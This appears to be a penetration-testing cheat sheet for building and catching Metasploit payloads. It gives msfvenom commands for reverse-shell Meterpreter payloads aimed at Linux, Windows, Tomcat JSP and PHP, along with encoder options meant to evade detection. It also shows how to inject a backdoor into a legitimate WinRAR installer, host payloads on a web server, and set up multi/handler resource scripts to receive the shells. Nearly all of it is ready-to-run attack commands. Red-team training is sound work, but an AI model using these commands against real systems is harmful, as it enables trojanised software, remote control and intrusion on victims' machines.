 ```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -i 10 -e x86/shikata_ga_nai -f elf > <PAYLOAD_ENCODED_x86>

# Inject into Portable Executables
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -e x86/shikata_ga_nai -i 10 -f exe -x winrar-x32-621.exe > winrar.exe

# JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp #TomCat content management system 

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\                   #PHP Web Application
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

#### **MSF Staged and Non Staged Payload**

```bash
# MSF STAGED Payload
windows/x64/meterpreter/reverse_tcp

# MSF NON-STAGED Payload
windows/x64/meterpreter_reverse_https
```

```bash
# Upload the payload on the target and try it with MSFconsole
cd Payloads
sudo python -m http.server 8080
msfconsole -q

use multi/handler
set payload <MSFVENOM_PAYLOAD>
set LHOST <MSFVENOM_LOCAL_HOST_IP>
set LPORT <MSFVENOM_LOCAL_PORT>
run
```

```bash
# Automation
ls -lah /usr/share/metasploit-framework/scripts/resource

# Create a handler resource
nano handler.rc
# Insert the following lines
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run
# Save it and exit

msfconsole -q -r handler.rc

# msfconsole
resource handler.rc

# Export inserted msfconsole commands into a resource script
makerc <FILE>.rc
```
